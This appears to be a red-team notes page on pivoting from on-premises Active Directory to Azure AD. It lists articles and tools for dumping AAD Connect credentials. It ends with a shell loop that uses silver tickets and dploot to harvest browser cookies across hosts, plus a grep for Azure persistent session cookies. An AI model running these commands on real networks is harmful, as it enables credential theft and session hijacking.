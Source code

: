 # On-Prem to Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot):

```
$ ls silver_tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls silver_tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME=silver_tickets/$st proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache $comp.megacorp.local -pvk ../key.pvk -show-cookies > browsers_$comp.out; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```
